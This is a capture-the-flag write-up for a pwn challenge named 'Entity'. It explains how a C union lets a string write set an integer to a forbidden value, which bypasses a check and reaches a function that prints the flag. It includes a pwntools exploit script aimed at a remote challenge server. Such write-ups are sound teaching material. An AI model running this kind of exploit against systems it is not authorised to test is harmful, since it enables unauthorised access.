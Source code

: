 # [Pwn] Entity

This challenge is composed of a binary, and it's C source code. The code consists mainly in a union for which the fields are either set or get, depending on the user input.

```c
static union {
    unsigned long long integer;
    char string[8];
} DataStore;

typedef enum {
    STORE_GET,
    STORE_SET,
    FLAG
} action_t;

typedef enum {
    INTEGER,
    STRING
} field_t;

typedef struct {
    action_t act;
    field_t field;
} menu_t;
```

The setter will copy the input buffer into the recipient field if we are setting the STRING type

```c
void set_field(field_t f) {
    char buf[32] = {0};
    printf("\nMaybe try a ritual?\n\n>> ");
    fgets(buf, sizeof(buf), stdin);
    switch (f) {
    case INTEGER:
        sscanf(buf, "%llu", &DataStore.integer);
        if (DataStore.integer == 13371337) {
            puts("\nWhat's this nonsense?!");
            exit(-1);
        }
        break;
    case STRING:
        memcpy(DataStore.string, buf, sizeof(DataStore.string));
        break;
    }

}
```

If we copy the right value to the string, to overflow into the integer, we can bypass the setter check (the integer is different from `13371337`). Yet, this value is required to run the `get_flag` function

```c
void get_flag() {
    if (DataStore.integer == 13371337) {
        system("cat flag.txt");
        exit(0);
    } else {
        puts("\nSorry, this will not work!");
    }
}
```

After some trial and error, this exploit is about:

 - running the different commands (`T` then `S`) to set the STRING
 - set it to the bytes corresponding to `13371337`
 - run the get flag command (`C`)

```python
from pwn import *

def wait_for_input(r, lines):
    lel = r.recvlinesS(lines)
    print('\n'.join(lel))

def main():
    r = remote('142.93.35.129',31171)
    wait_for_input(r, 7)
    r.send(b'T\n')
    wait_for_input(r, 3)
    r.send(b'S\n')
    wait_for_input(r, 3)
    leet_num = 13371337
    r.send(leet_num.to_bytes(8, 'little'))
    r.send(b"\n")
    wait_for_input(r, 5)
    r.send(b'C\n')
    flag = r.readline()
    print(flag)
    r.close()

main()
```
